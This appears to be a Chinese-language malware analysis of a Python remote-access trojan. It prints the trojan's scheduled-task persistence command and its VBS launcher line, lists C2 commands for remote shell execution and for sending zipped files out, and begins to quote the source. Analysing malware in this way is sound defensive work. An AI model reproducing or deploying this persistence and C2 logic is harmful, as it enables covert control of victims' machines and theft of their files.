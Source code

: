 整体的python代码没有经过混淆,并且代码量比较简短,在开头判断系统是Windows,Linux还是Mac OS,根据系统类型执行对应操作,但是后续的代码中只有windows的操作,猜测其后续变种可能会完善其他平台功能 整体python远控分为两个部分:

#### 1\. 持久化:

先执行findstr命令去搜索一下是否存在"paurora"字段开头的计划任务,如果存在则代表当前主机已被感染,则跳过持久化这一步,如不存在则将当前目录文bg.txt中的`"$runnerPath$"`字段替换成`"runner.bat"`的绝对路径,然后创建写入到脚本`bg.vbs`,以创建计划任务方式将vbs脚本设置成计划任务,全天启动,计划任务名字为"paurora" 加上随机0~10000后缀 bg.vbs脚本用于启动runner.bat调用vabsheche.py远控程序

```
`subprocess.run(['schtasks', '/create', '/sc', 'DAILY', '/tn', task_name,'/tr', "wscript '{}'".format(vbs_path), '/st', '00:01','/ri', '30', '/du', '24:00'])
`
```

```
`CreateObject("Wscript.Shell").Run """C:\Users\Admin\AppData\Roaming\nettools48/runner.bat""", 0, True
`
```

#### 2\. 远控通信:

`socket.socket(socket.AF_INET, socket.SOCK_STREAM)`,`ssl.wrap_socket()` 样本获取当前路径下的"notes.txt"得到通信的c2和端口,使用ssl+socket进行网络通信,并且SSLSocket通过加载发送当前目录下的cert.pem证书文件,确保连接的真实性![Image](../../../_resources/640_wx_fmt_png_wxfrom_5_wx_lazy__a075d07c5d524802a.png)![Image](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)连接上服务端之后,支持执行的命令有:

| "HEARTH_BEAT": | 向服务器发送"None"表示当前存活状态 |
| --- | --- |
| "USER_INFO": | 收集信息,包括操作系统名称,版本和用户名 |
| "SHELL": | cmd执行从服务器端接收到的指令,并且返回结果 |
| "PREPARE_UPLOAD": | 检测文件是否可读写,判断成功会向服务器发送"ready" |
| "UPLOAD": | 从c2服务器接收数据,并将其写入至文件 |
| "DOWNLOAD": | 将文件目标通过zip格式发送到c2 |

#### 源码:

```
`import getpass
import json
import os
import platform
import socket
import ssl
import subprocess
import time
import traceback
import zipfile
from random import randint
from threading import Thread
def win_client():
    if 'win' in platform.system().lower():
        return True
    return False
def linux_client():
    if 'linux' in platform.system().lower():
        return True
    return False
def osx_client():
    if 'darwin' in platform.system().lower():
        return True
    return False
CURRENT_FILE_DIRECTORY = os.path.dirname(os.path.realpath(__file__)) + "/"
```